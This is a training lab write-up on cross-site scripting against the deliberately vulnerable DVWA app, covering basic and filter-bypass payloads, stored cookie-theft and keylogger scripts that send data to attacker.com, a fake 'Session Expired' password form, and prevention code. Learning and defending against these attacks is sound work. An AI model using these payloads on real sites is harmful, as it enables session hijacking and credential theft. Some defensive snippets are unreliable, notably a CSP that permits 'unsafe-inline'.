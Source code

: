 # Section 10: Cross-Site Scripting (XSS) Lab

## Objective
Understand, identify, and prevent Cross-Site Scripting (XSS) vulnerabilities in web applications through hands-on practice and testing.

## Learning Goals
- Learn the three types of XSS attacks (Reflected, Stored, DOM-based)
- Practice identifying XSS vulnerabilities in web applications
- Understand the impact and exploitation of XSS attacks
- Implement proper input validation and output encoding
- Use security tools to detect and test XSS vulnerabilities

## Lab Environment
- **Target Application:** DVWA (Damn Vulnerable Web Application)
- **Tools:** Burp Suite, OWASP ZAP, Browser Developer Tools
- **Operating System:** Windows 10/11 with XAMPP
- **Browser:** Chrome/Firefox with security extensions

## Step-by-Step Procedures

### Step 1: Environment Setup
1. **Configure DVWA:**
   - Set security level to "Low" for initial testing
   - Navigate to XSS (Reflected) module
   - Observe the input form and response handling

2. **Install browser extensions:**
   - XSS Hunter (for payload tracking)
   - NoScript (for testing script blocking)
   - Web Developer Tools

### Step 2: Reflected XSS Testing
1. **Basic XSS payload:**
   ```html
   <script>alert('XSS')</script>
   ```

2. **Advanced payloads:**
   ```html
   <!-- Image-based XSS -->
   <img src="x" onerror="alert('XSS')">
   
   <!-- Event handler XSS -->
   <input type="text" onfocus="alert('XSS')" autofocus>
   
   <!-- SVG-based XSS -->
   <svg onload="alert('XSS')">
   
   <!-- JavaScript URI -->
   <a href="javascript:alert('XSS')">Click me</a>
   ```

3. **Bypass filters:**
   ```html
   <!-- Case variation -->
   <ScRiPt>alert('XSS')</ScRiPt>
   
   <!-- Encoding -->
   <script>alert(String.fromCharCode(88,83,83))</script>
   
   <!-- Double encoding -->
   %253Cscript%253Ealert('XSS')%253C/script%253E
   ```

### Step 3: Stored XSS Testing
1. **Navigate to XSS (Stored) module:**
   - Access the guestbook or comment system
   - Submit malicious payloads that persist

2. **Stored XSS payloads:**
   ```html
   <!-- Cookie theft -->
   <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
   
   <!-- Session hijacking -->
   <script>new Image().src='http://attacker.com/hijack.php?session='+document.cookie</script>
   
   <!-- Keylogger -->
   <script>document.addEventListener('keypress', function(e) { new Image().src='http://attacker.com/keylog.php?key='+e.key; });</script>
   ```

### Step 4: DOM-based XSS Testing
1. **Analyze client-side code:**
   - Use browser developer tools
   - Look for unsafe DOM manipulation
   - Identify sources and sinks

2. **DOM XSS payloads:**
   ```html
   <!-- Fragment identifier -->
   #<script>alert('XSS')</script>
   
   <!-- Hash-based -->
   #<img src=x onerror=alert('XSS')>
   ```

### Step 5: Advanced Exploitation
1. **Session hijacking simulation:**
   ```html
   <script>
   var img = new Image();
   img.src = 'http://attacker.com/steal.php?session=' + document.cookie;
   </script>
   ```

2. **Keylogger implementation:**
   ```html
   <script>
   document.addEventListener('keypress', function(e) {
       var img = new Image();
       img.src = 'http://attacker.com/keylog.php?key=' + e.key + '&page=' + window.location.href;
   });
   </script>
   ```

3. **Phishing simulation:**
   ```html
   <script>
   document.body.innerHTML = '<h1>Session Expired</h1><form action="http://attacker.com/phish.php"><input type="password" placeholder="Enter password"><input type="submit"></form>';
   </script>
   ```

### Step 6: Prevention and Mitigation
1. **Input validation:**
   ```php
   // Validate and sanitize input
   $input = filter_var($_POST['input'], FILTER_SANITIZE_STRING);
   $input = htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
   ```

2. **Output encoding:**
   ```php
   // Context-aware output encoding
   echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
   
   // For HTML attributes
   echo htmlspecialchars($user_input, ENT_QUOTES | ENT_HTML5, 'UTF-8');
   
   // For JavaScript context
   echo json_encode($user_input);
   ```

3. **Content Security Policy (CSP):**
   ```html
   <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' 'unsafe-inline';">
   ```

### Step 7: Automated Testing
1. **Using OWASP ZAP:**
   - Configure ZAP proxy
   - Scan for XSS vulnerabilities
   - Review scan results and false positives

2. **Using Burp Suite:**
   - Intercept requests
   - Use Intruder for payload testing
   - Analyze responses for XSS indicators

## Key Screenshots
- [Screenshot 1: DVWA XSS module interface]
- [Screenshot 2: Basic XSS alert execution]
- [Screenshot 3: Stored XSS in guestbook]
- [Screenshot 4: Cookie theft simulation]
- [Screenshot 5: Browser developer tools analysis]
- [Screenshot 6: Prevention code implementation]

## Key Takeaways
- **XSS is a client-side vulnerability** that can have severe consequences
- **Three main types:** Reflected, Stored, and DOM-based XSS
- **Context matters:** Different encoding is needed for different contexts
- **Defense in depth:** Multiple layers of protection are essential
- **User education:** Users should be aware of potential XSS attacks

## Attack Impact
- **Session hijacking:** Stealing user session cookies
- **Credential theft:** Capturing login information
- **Malware distribution:** Redirecting users to malicious sites
- **Defacement:** Modifying website content
- **Data theft:** Accessing sensitive user information

## Prevention Strategies
1. **Input validation and sanitization**
2. **Output encoding based on context**
3. **Content Security Policy (CSP)**
4. **HTTP-only cookies**
5. **Regular security testing**
6. **User education and awareness**

## Security Headers
```http
Content-Security-Policy: default-src 'self'
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
```

## Next Steps
- Practice with different XSS payloads and evasion techniques
- Learn about advanced CSP bypass methods
- Study real-world XSS vulnerabilities and exploits
- Implement comprehensive XSS prevention in web applications

---
*Lab completed: September 10, 2025 | Duration: 2 hours | Status: ✅ Complete*
